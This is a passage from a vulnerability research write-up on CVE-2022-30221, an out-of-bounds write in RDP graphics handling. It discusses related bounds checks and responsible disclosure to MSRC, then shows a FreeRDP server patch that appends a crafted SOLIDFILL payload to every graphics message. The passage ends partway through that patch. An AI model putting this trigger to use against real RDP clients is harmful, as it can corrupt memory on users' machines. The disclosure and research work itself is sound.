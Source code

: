 ## Hunting for similar bugs

As can be seen in the previous tenet figure all parameters of `SOLIDFILL_PDU`, `left`, `right`, `top`, and `bottom` are treated similarly. We cannot get an integer overflow for `left` and `right` in our RDP context as we can only pass 16 bits, but we can get one for `top` and bypass its bound check.

By bypassing bound checks for both `top` and `bottom` we can hope to get rid of the periodic writes and enforce a single out of bound write. But this is not how it works. The jitted code performs the same integer overflow when calculating the first address to write and then iterate `bottom - top` times.

The part of `SOLIDFILL_PDU` defining the rectangle to fill is actually a `RDPGFX_RECT16` structure. We looked at other PDU manipulating this structure or the `width` and `height` parameters but the ones we looked at properly checked their bounds.

# Responsible Disclosure

We sent the [report already mentioned earlier](/posts/misc/rdpegfx/CVE-2022-30221_Report.txt) to MSRC mid-march together with a PoC and a few tenet traces.

To be clear our PoC is just a trigger, not an exploit.
Our PoC is composed of a FreeRDP patch, a Dockerfile, and a Makefile to build and invoke the container with the right parameters.

The Dockerfile builds and expose a patched FreeRDP server. The patch is rather simple
and just append our payload to every messages sent through the GFX channel in the function
`rdpgfx_server_packet_send`:

```diff
--- a/channels/rdpgfx/server/rdpgfx_main.c
+++ b/channels/rdpgfx/server/rdpgfx_main.c
@@ -100,6 +100,38 @@ static UINT rdpgfx_server_packet_send(RdpgfxServerContext* context, wStream* s)
 	BYTE* pSrcData = Stream_Buffer(s);
 	UINT32 SrcSize = Stream_GetPosition(s);
 	wStream* fs;
+	BYTE payload[] = {
+		// RDPGFX_CREATE_SURFACE_PDU
+		0x09, 0x00,             // HEADER.cmdId
+		0x00, 0x00,             // HEADER.flags
+		0x0f, 0x00, 0x00, 0x00, // HEADER.pduLength
+		0x41, 0x41,             // surfaceId
+		0x80, 0x80,             // width
+		0x01, 0x00,             // height
+		0x21,                   // pixelFormat
+		// RDPGFX_SOLID_FILL_PDU
+		0x04, 0x00,             // HEADER.cmdId
+		0x00, 0x00,             // HEADER.flags
+		0x18, 0x00, 0x00, 0x00, // HEADER.pduLength
+		0x41, 0x41,             // surfaceId
+		0x42, 0x42, 0x42, 0x42, // fillPixel
+		0x01, 0x00,             // fillRectCount
+		0x33, 0x33,             // fillRects[0].RECT16.left
+		0x81, 0x7F,             // fillRects[0].RECT16.top
+		0x34, 0x33,             // fillRects[0].RECT16.right
+		0x01, 0xFF              // fillRects[0].RECT16.bottom
+	};
+	BYTE* pAltData = NULL;
+
+	pAltData = malloc(SrcSize + sizeof(payload));
+	memcpy(pAltData, pSrcData, SrcSize);
+	memcpy(pAltData + SrcSize, payload, sizeof(payload));
+
+	pSrcData = pAltData;
```